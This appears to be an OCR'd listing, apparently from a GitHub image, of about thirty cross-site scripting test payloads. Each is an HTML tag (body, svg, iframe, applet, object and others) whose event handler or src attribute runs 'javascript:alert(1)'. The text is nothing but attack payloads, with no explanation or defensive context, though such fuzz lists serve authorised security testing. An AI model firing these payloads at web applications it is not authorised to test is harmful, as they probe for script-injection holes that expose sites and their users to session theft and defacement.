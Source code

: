 &lt;html onMouseDown html onMouseDown="javascript:javascript:alert(1)"&gt;&lt;/html onMouseDown&gt;

&lt;marquee onScroll marquee onScroll="javascript:javascript:alert(1)"&gt;&lt;/marquee onScroll&gt;

&lt;xml onPropertyChange xml onPropertyChange="javascript:javascript:alert(1)"&gt;&lt;/xml onPropertyChange&gt;

&lt;frameset onBlur frameset onBlur="javascript:javascript:alert(1)"&gt;&lt;/frameset onBlur&gt;

&lt;applet onReadyStateChange applet onReadyStateChange="javascript:javascript:alert(1)"&gt;&lt;/applet onReadyStateChange&gt;

&lt;svg onUnload svg onUnload="javascript:javascript:alert(1)"&gt;&lt;/svg onUnload&gt;

&lt;html onMouseOut html onMouseOut="javascript:javascript:alert(1)"&gt;&lt;/html onMouseOut&gt;

&lt;body onMouseMove body onMouseMove="javascript:javascript:alert(1)"&gt;&lt;/body onMouseMove&gt;

&lt;body onResize body onResize="javascript:javascript:alert(1)"&gt;&lt;/body onResize&gt;

&lt;object onError object onError="javascript:javascript:alert(1)"&gt;&lt;/object onError&gt;

&lt;body onPopState body onPopState="javascript:javascript:alert(1)"&gt;&lt;/body onPopState&gt;

&lt;html onMouseMove html onMouseMove="javascript:javascript:alert(1)"&gt;&lt;/html onMouseMove&gt;

&lt;applet onreadystatechange applet onreadystatechange="javascript:javascript:alert(1)"&gt;&lt;/applet onreadystatechange&gt;

&lt;body onpagehide body onpagehide="javascript:javascript:alert(1)"&gt;&lt;/body onpagehide&gt;

&lt;svg onunload svg onunload="javascript:javascript:alert(1)"&gt;&lt;/svg onunload&gt;

&lt;applet onerror applet onerror="javascript:javascript:alert(1)"&gt;&lt;/applet onerror&gt;

&lt;body onkeyup body onkeyup="javascript:javascript:alert(1)"&gt;&lt;/body onkeyup&gt;

&lt;body onunload body onunload="javascript:javascript:alert(1)"&gt;&lt;/body onunload&gt;

&lt;iframe onload iframe onload="javascript:javascript:alert(1)"&gt;&lt;/iframe onload&gt;

&lt;body onload body onload="javascript:javascript:alert(1)"&gt;&lt;/body onload&gt;

&lt;html onmouseover html onmouseover="javascript:javascript:alert(1)"&gt;&lt;/html onmouseover&gt;

&lt;object onbeforeload object onbeforeload="javascript:javascript:alert(1)"&gt;&lt;/object onbeforeload&gt;

&lt;body onbeforeunload body onbeforeunload="javascript:javascript:alert(1)"&gt;&lt;/body onbeforeunload&gt;

&lt;body onfocus body onfocus="javascript:javascript:alert(1)"&gt;&lt;/body onfocus&gt;

&lt;body onkeydown body onkeydown="javascript:javascript:alert(1)"&gt;&lt;/body onkeydown&gt;

&lt;iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"&gt;&lt;/iframe onbeforeload&gt;

&lt;iframe src iframe src="javascript:javascript:alert(1)"&gt;&lt;/iframe src&gt;

&lt;svg onload svg onload="javascript:javascript:alert(1)"&gt;&lt;/svg onload&gt;

&lt;html onmousemove html onmousemove="javascript:javascript:alert(1)"&gt;&lt;/html onmousemove&gt;
